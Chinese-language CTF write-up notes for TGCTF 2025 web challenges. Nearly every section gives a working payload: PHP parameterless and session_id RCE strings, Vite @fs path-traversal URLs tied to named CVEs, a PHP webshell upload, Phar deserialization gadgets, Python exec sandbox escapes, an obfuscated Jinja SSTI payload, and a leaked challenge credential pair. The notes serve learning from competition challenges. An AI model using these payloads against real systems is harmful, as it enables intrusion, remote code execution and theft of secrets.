



# AAA偷渡阴平
	- 参考: [[CTFWEB/PHP/无参数RCE]]
	- ```text
	  ?a=system('cat%20/flag');&tgctf2025=eval(current(reset(get_defined_vars())));
	  ```
- # 前端GAME
	- CVE-2025-31125(CVE-2025-30208的Bypass)
	- `/@fs/proc/self/environ?import&?inline=1.wasm?init`
- # 火眼辩魑魅
	- 看robots.txt
	- 去文件包含的那一个php文件读所有源码，用[[CTFWEB/伪协议]]读
	- 然后绕命令执行
		- ```http
		  POST /tgshell.php HTTP/1.1
		  Host: node2.tgctf.woooo.tech:30206
		  Accept-Language: zh-CN,zh;q=0.9
		  Upgrade-Insecure-Requests: 1
		  User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
		  Accept-Encoding: gzip, deflate, br
		  Connection: close
		  Content-Type: application/x-www-form-urlencoded
		  Content-Length: 23
		  
		  shell=?><?=`cat+/tg*`?>
		  ```
- # 熟悉的配方，熟悉的味道
	- 用抛出错误实现RCE，用污染HTTP 500的返回消息实现回显
	- ```python
	  url = "http://node1.tgctf.woooo.tech:32030/"
	  
	  cmd = "ls /f* && sleep 1"
	  
	  code = f"""
	  b = re.match.__globals__['__builtins__']
	  b["setattr"](b['__import__']('wsgiref').handlers.BaseHandler,"error_body",b["__import__"]('os').popen('cat /flagggggg_tgctf2025_asjdklalkcnkjassjhdlk').read().encode())
	  raise Exception("1")
	  """
	  
	  resp = requests.post(url, data = {
	      "expr": f"exec({code!r})",
	  })
	  print(resp.status_code)
	  print(resp.text)
	  ```
- # AAA偷渡阴平（复仇）
	- 用session_id构造任意hex,然后使用hex2bin转成任意字符串
	- ```python
	  url = "http://node1.tgctf.woooo.tech:32736/"
	  
	  payload = """
	  session_start();passthru(hex2bin(session_id()));
	  """
	  
	  resp = requests.get(url, params = {
	      "tgctf2025": payload
	  }, cookies = {
	      "PHPSESSID": "636174202f666c6167"
	  })
	  print(resp.text)
	  ```
- # 直面天命
	- 解锁hint得知`/aazz`路由
	- 扫描参数得到`filename`参数，直接读flag:
		- ```text
		  http://node2.tgctf.woooo.tech:31299/aazz?filename=/flag
		  ```
- # 什么文件上传？
	- robots.txt文件泄漏
	- `class.php`打反序列化
		- ```php
		  $yesterday = new yesterday();
		  $yesterday -> study = new today();
		  $yesterday -> study -> doing = new future();
		  $s = serialize($yesterday);
		  $s = base64_encode($s);
		  $s = base64_encode($s);
		  $s = base64_encode($s);
		  $s = base64_encode($s);
		  $s = base64_encode($s);
		  echo $s . "....";
		  ```
- # (ez)upload
	- ```http
	  POST /upload.php?name=b.php/. HTTP/1.1
	  Host: node2.tgctf.woooo.tech:31292
	  Content-Length: 315
	  Cache-Control: max-age=0
	  Accept-Language: zh-CN,zh;q=0.9
	  Origin: http://node2.tgctf.woooo.tech:31292
	  Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynYUqMgyptD1WxGuO
	  Upgrade-Insecure-Requests: 1
	  User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
	  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
	  Referer: http://node2.tgctf.woooo.tech:31292/
	  Accept-Encoding: gzip, deflate, br
	  Connection: keep-alive
	  
	  ------WebKitFormBoundarynYUqMgyptD1WxGuO
	  Content-Disposition: form-data; name="name"; filename="challenge.txt"
	  Content-Type: text/plain
	  
	  <?php
	  eval($_POST[1]);
	  ------WebKitFormBoundarynYUqMgyptD1WxGuO
	  Content-Disposition: form-data; name="submit"
	  
	  上传文件
	  ------WebKitFormBoundarynYUqMgyptD1WxGuO--
	  
	  ```
- # TG_wordpress
	- > 施工中
	- 扫二维码下载apk,解包搜索password看到用户名密码`TG_wordpressor` `aXx^oV@K&cFoVaztQ*`
		- ```text
		      <string name="web04">+ username/password:</string>
		      <string name="web05">+ TG_wordpressor</string>
		      <string name="web06">+ aXx^oV@K&amp;cFoVaztQ*</string>
		  ```
	- 到后台根据插件查CVE，查到`CVE-2020-25213`
- # 什么文件上传？（复仇）
	- 复仇多了[[CTFWEB/PHP/Phar]]反序列化
	- payload这么构造
		- ```php
		  $o = new yesterday();
		  $o->study = new today();
		  $o->study->doing = new future();
		  
		  //打开phar文件
		  @unlink("phar.phar");
		  $phar = new Phar("phar.phar"); //生成时后缀名必须为phar
		  $phar->startBuffering();
		  $phar->setStub("GIF89a" . "<?php __HALT_COMPILER(); ?>");
		  
		  //放入对象
		  $phar->setMetadata($o);
		  
		  //添加压缩的文件（test为其中的内容）
		  $phar->addFromString("test.txt", "test114514");
		  $phar->stopBuffering();
		  ```
	- 重命名成`phar.phar.atg`传上去，然后到class.php处触发
		- 
- # 前端GAME Plus
	- CVE-2025-30208读源代码，提示`flag在根目录下/tgflagggg中`
	- CVE-2025-31486读flag
		- `/@fs/tgflagggg?.svg?.wasm?init`
- # 前端GAME Ultra
	- CVE-2025-32395读flag, 在环境变量里
		- `/@fs/app#/../proc/self/environ`
- # TGCTF 2025 后台管理
	- SQL报错，确定是SQL注入
		- ```python
		  url = "http://124.71.147.99:9045/login"
		  
		  resp = requests.post(url, data={"username": "tg\\", "password": b"tg123"})
		  print(resp.text.partition("<body>")[2].partition("</body>")[0])
		  print(resp.text)
		  ```
	- 布尔盲注读flag
		- 
- # 直面天命（复仇）
	- 读源码，因为`天命`和`难违`会被替换成`{{`和`}}`，所以从黑名单中去掉`{`和`}`让fenjing生成payload
		- ```shell
		  fenjing crack-keywords -k test.py -c 'cat /tgffff11111aaaagggggggg'
		  ```
	- 然后把生成payload中的双花括号换成“天命难违”就可以RCE了
		- ```text
		  天命((cycler.next["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"]["\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f"]["\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f"]('o''s'))['p''open']('cat /tgffff11111aaaagggggggg'))['r''ead']()难违
		  ```
- # mm不躲猫猫
	- deepseek一把梭
	- 
- # 这是啥o_o
	- > 施工中
	- 